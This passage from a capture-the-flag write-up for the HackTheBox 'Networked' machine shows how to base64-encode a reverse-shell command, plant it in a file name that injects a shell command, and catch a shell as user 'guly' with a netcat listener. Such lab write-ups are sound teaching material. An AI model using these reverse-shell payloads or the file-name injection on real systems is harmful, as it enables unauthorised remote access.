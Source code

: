 
So for example if we `base64` encode the payload we will get:

```bash
echo nc -e /bin/bash 10.10.14.101 9001 | base64 -w0
```

![encode-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Networked/img/encode-21.png)


Now we can create a file like this:

```bash
touch 'a; echo "YmFzaCAtaSAvZGV2L3RjcC8xMC4xMC4xNC4xMDEgOTAwOSAwPiYxCg==" | base64 -d | sh; b'
```

![touch-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Networked/img/touch-22.png)


Then we can setup the local listener with:

```bash
rlwrap nc -lnvp 9009
```


After a couple of seconds we get a shell as `guly`:

![guly-shell-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Networked/img/guly-shell-23.png)
